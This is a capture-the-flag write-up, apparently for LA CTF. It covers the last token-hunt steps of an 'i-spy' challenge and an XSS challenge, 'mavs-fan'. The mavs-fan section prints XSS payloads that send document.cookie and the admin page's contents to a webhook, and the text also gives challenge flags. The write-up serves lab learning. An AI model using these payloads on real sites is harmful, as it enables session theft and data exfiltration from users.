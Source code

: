 `step 10`

```
A token received when making a DELETE request to this page...
```

replace `POST` to `DELETE` method

```shell
You DELETED MY WEBSITE!!!!! HOW DARE YOU????? 32BFBAEB91EFF980842D9FA19477A42E
```

`step 11`

```
A token in a TXT record at i-spy.chall.lac.tf...
```

use `nslookup` to see `TXT record` 

```shell
payload: nslookup -type=TXT i-spy.chall.lac.tf
# final token : 7227E8A26FC305B891065FE0A1D4B7D4
```

`result`

```
A Flag! lactf{1_sp0773d_z_t0k3ns_4v3rywh3r3}
```

## mavs-fan

In this challenge, there is a web server and an admin bot server, so I immediately thought of `XSS`. After reading the description, we see that JavaScript commands cannot be used, so I used a different simple payload

```javascript
<img src=x onerror="alert(1)">
```

Then I tried extracting the content to a webhook but failed until I realized that the `flag` was inside `/admin`

```javascript
<img src=x onerror="fetch('url of webhook'+document.cookie)">
```

And thus, we cannot steal the `admin's cookie`, so I had the `admin bot` extract the content using the following payload

```javascript
<img src=x onerror="fetch('/admin')
.then(r => r.redirected ? r.text() : r.text())
.then(d => fetch('<url of webhook>flag=' + encodeURIComponent(d)))">
```

After sending the payload, I used the URL from that post to send it to the admin bot for verification and finally received the `flag` on the webhook.

## chessbased
